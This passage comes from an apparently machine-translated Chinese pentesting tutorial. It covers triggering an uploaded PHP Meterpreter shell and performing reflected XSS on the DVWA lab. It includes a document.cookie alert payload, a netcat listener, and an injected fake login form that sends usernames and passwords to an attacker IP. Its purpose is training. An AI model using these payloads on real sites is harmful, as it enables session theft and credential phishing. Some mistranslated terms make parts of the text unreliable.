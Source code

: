 5.  创建处理程序后，我们可以导航到上载位置并单击 msfv-shell.php 文件：

![](assets/7d0b0ee3-bc19-4500-a314-aee181e06003.png)

图 13：访问恶意 PHP 文件

6.  一旦文件被访问，在 Metasploit 控制台上，您将有一个 MeterMeter 会话：

![](assets/958b3e80-c178-400e-93d1-9b8af210611f.png)

图 14：建立反向流量计外壳

从这里，您可以选择放入系统外壳，上传/下载文件，等等。

# 执行 XSS 攻击

在这里，我们将使用 DVWA 并了解如何执行反射和存储 XSS 攻击。我们将 DVWA 的安全级别保持在低设置。

# 执行反射 XSS 攻击

在此场景中，我们将执行反射 XSS 攻击。在此攻击中，我们将向 web 应用程序发送请求，迫使它显示一些敏感信息。我们将执行以下攻击：

1.  登录到 DVWA 并单击 XSS。此页面的默认操作是简单地`echo`输入到字段中的任何输入。因此，我们将尝试强制应用程序向我们提供`cookie`和`PHPSESSID`等信息。

2.  你叫什么名字？字段中，我们将输入一个简单的脚本，该脚本将为我们提供我们正在寻找的`cookie`和`PHPSESSID`数据。输入以下命令：

```
<script>alert(document.cookie);</script>
```

在这个脚本中，我们告诉 web 应用程序通过提供一个弹出窗口来**提醒**我们。这里我们调用`document.cookie`，它将提供当前的`cookie`和`PHPSESSID`值。注意产出；我们现在有了我们所追求的`cookie`和`PHPSESSID`值：

![](assets/1f023b4e-9cb3-49bb-93f6-4ceba811090b.png)

图 15：使用反射 XSS 提供敏感数据

现在我们已经获得了所有必需的详细信息，我们将尝试向该页面中插入一个表单，以诱骗用户输入他们的凭据。我们还将强制 web 应用程序将输出发送到其他位置，而不是在屏幕上弹出：

1.  在 Kali Linux 中打开终端窗口。我们将使用`nc -lvp 80`命令在端口`80`上创建一个`netcat`简单 web 服务器。在这个命令中，我们使用`nc`命令启动`netcat`。`-l`开关用于启用监听模式，`v`用于详细输出，`p`定义我们将监听的端口号。执行命令后，`netcat`将侦听连接。

2.  使用相同的 XSS 反射页面，输入以下脚本：

```
<h3>Please login to proceed</h3> <form action=http://192.168.34.153>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```

在这个脚本中，我们创建了一个简单的表单，它需要一个`username`和`password`。注意`form action=`字段。这里，我们使用的是攻击者 PC（Kali Linux）的 IP 地址，我们在那里启动了`netcat`侦听器。

3.  现在，我们正在显示一个表单。随机输入`username`和`password`并点击登录：

![](assets/9f1f6f03-dd12-4183-8afe-125bb73b021c.png)

